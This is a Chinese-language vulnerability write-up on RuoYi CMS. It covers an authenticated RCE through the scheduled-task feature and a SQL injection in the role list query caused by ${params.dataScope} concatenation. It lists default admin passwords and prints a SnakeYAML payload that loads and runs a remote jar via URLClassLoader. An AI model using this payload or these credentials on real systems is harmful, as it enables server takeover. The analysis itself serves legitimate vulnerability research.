

前言
有了前面的一些思路后，继续积累下CMS的漏洞的思路。
影响范围
后台RCE:
RuoYi <= 4.6.2
后台SQL注入:
RuoYi <= 4.6.1
环境部署
直接到官网看文档(再根据报错改下路径就可以了)，我下载的是4.6.0版本。 后台管理默认账号密码是admin/admin123或者ry/admin123。
http://doc.ruoyi.vip/ruoyi/document/hjbs.html#%E8%BF%90%E8%A1%8C%E7%B3%BB%E7%BB%9F后台RCE
首先登陆到后台，到系统监控中的定时任务中新建一个任务，在调用目标字符串输入payload。
# payload
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:8000/yaml-payload.jar"]]]]'){kind=link}
按readme中的说明改完执行的指令生成恶意payload，开启一个server。 开完之后在若依这边开启定时任务，就可以发现指令被触发执行了。
{kind=link}
漏洞分析
payload非常像"绕过高版本JDK限制进行JNDI注入"一文中的其中一种绕过方法， 看到这个功能点其实可以猜到这里就是一个反射的功能，下面来看一下payload的触发过程。 首先来到com.ruoyi.quartz.util#JobInvokeUtil中，可以看到beanName和methodName获取到的内容， 即payload最外层的类名和方法名。这里继续跟进一下参数methodParams = getMethodParams(invokeTarget)。
{kind=link}
从注释中也可以看出这个方法的功能点，大概的一个流程是先获取最外层括号中的内容， 接着判断字符串中是否含有单引号，如果有的话当作string类型参数。
{kind=link}
使用isValidClassName判断是否是非法的类名，原理是判断类名中是否有.， 如果有的话就为非法类名，走往else分支实例化类，再进行反射。
{kind=link}
后台SQL注入
登陆后台后向该POST接口构造报错注入即可SQL注入。
{kind=link}
漏洞分析
首先找到payload中路由对应的控制器，传入的role参数内包含我们的payload。
{kind=link}
这个方法内调用了selectRoleList方法，从方法名大概可以猜出这里造成的sql注入。 先跟进startPage方法，从注释中看到这里的功能点大概是对读取到的内容做一个分页处理。 对我们sql注入没有什么影响，我直接不给这几个参数赋值也不会影响我们后面的利用。 同时，也可以看到if条件为false，所以这里直接返回了。
{kind=link}
返回后带着role进入了selectRoleList方法。
{kind=link}
跟了一堆动态代理，最终发现来到这里调用mybatis框架。
{kind=link}
来到语句映射文件，可以看到payload选择dataScope作为注入点的原因是这里直接用${params.dataScope}朴实无华地拼接上去， 而不是使用#{params.dataScope}预编译，也没有进行任何过滤操作。
There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.